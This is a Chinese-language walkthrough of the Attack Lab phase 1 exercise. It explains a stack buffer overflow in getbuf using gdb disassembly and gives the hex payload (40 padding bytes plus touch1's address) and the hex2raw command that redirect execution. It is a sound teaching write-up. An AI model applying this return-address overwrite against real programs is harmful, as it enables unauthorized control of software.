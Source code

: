 本关的目标是：在`getbuf`函数返回时，令程序跳转到`touch1()`而不是从`test()`正常返回。

我们需要攻击`getbuf`函数，构造输入字符串，利用缓冲区溢出修改栈中的返回地址。

首先查看`getbuf`函数的汇编代码：

```assembly
00000000004017a8 <getbuf>:
  4017a8:   48 83 ec 28             sub    $0x28,%rsp
  4017ac:   48 89 e7                mov    %rsp,%rdi
  4017af:   e8 8c 02 00 00          callq  401a40 <Gets>
  4017b4:   b8 01 00 00 00          mov    $0x1,%eax
  4017b9:   48 83 c4 28             add    $0x28,%rsp		
  4017bd:   c3                      retq   				#retq指令从栈中数据0x401976弹出，并作为返回地址跳转
```

从`sub  0x28 %rsp`看出， `getbuf`函数在栈上分配了`40`个字节。再看下`test`函数的汇编代码：

```assembly
(gdb) disassemble test
Dump of assembler code for function test:
   0x0000000000401968 <+0>:     sub    $0x8,%rsp
   0x000000000040196c <+4>:     mov    $0x0,%eax
   0x0000000000401971 <+9>:     callq  0x4017a8 <getbuf> #将下一条指令0x401976压栈，并跳转到getbuf
   0x0000000000401976 <+14>:    mov    %eax,%edx
```

这里`callq`指令将`0x401976`压栈，并跳转到`getbuf`; `getbuf`执行结束后，使用`retq`指令从栈中弹出`0x401976`，并作为返回地址跳转。

假设输入字符串是`"1234567876543210"`， 程序执行到`0x4017b4`，此时栈组织如下：

![AttackLab 图1 栈组织结构](C:\Users\pc\Desktop\图片\AttackLab 图1 栈组织结构.PNG)

因此，我们需要先把栈上`40`字节填满，然后将`touch1`的地址写到`$rsp + 0x28`处，覆盖原先正常的返回地址`0x401976`。下面找到`touch1`的地址为`0x4017c0`

```assembly
(gdb) disassemble touch1
Dump of assembler code for function touch1:
   0x00000000004017c0 <+0>:     sub    $0x8,%rsp
   ...
```

构造攻击字符串, 写到文件`hex1`

```txt
00 00 00 00 00 00 00 00					# 前40个字节任意填，目的是将第40个字节之后的返回地址改写为touch1的地址
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00					# 小端机器上，这里要注意端序
```

利用`hex2raw`工具将字节码转为字符串，写到文件`answer1`， 用法如下：

```shell
./hex2raw < hex1 > answer1
```
